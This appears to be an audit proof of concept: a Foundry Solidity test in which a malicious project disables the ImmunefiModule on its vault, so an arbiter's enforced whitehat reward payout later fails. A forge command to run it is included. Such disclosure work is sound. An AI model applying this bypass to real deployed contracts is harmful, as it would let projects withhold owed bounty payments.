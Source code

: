```sol
        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
            address(vault),
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }
```

Run the PoC via:

```sh
forge test --mt "testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown" -vvvvv
```